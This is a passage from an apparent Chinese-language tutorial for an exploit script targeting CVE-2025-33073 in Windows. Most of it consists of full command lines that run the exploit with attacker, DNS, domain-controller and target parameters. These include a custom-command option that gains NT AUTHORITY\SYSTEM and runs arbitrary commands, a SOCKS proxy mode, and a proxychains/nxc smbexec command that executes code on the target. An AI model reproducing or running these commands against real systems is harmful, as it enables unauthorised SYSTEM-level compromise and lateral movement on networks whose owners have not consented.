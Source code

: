 直接在终端中完成整个流程，无需 GUI 窗口 。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpJa5e3SOA72kkWBVOCzlVGhegEczwYnJGZIFsfPPm1tpuwgr4sZmFvw/640?wx_fmt=other&from=appmsg "")  
  
自定义命令执行  
如需在获取 SYSTEM 权限后执行自定义命令，可添加   
--custom-command  
 参数：  
```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target CLIENT01.wintastic.local \
  --target-ip 192.168.178.65 \
  --cli-only \
  --custom-command "whoami"
  
```  
  
输出会显示   
NT AUTHORITY\SYSTEM  
，并执行指定命令。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpWMicBO19LEBj5HUkDibMeSUjrtT8gZH6vCVV9cqTUlqvouTr7VRb5kow/640?wx_fmt=other&from=appmsg "")  
  
SOCKS 代理模式  
在目标与自己 IP 相同时（  
--target  
 与   
--target-ip  
 相同），可启动 SOCKS 代理：  
```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target 192.168.178.65 \
  --target-ip 192.168.178.65 \
  --cli-only \
  --socks
  
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpfeYgg75tfiasvnibZJ8FAkhrzn96iamrCqC4kZbMeeMf2Ouw7SE9npviag/640?wx_fmt=other&from=appmsg "")  
  
  
然后通过   
proxychains nxc smb 192.168.178.65 -d '' -u '' -p '' -x 'whoami' --exec-method smbexec  
 在代理下执行后续命令。  
  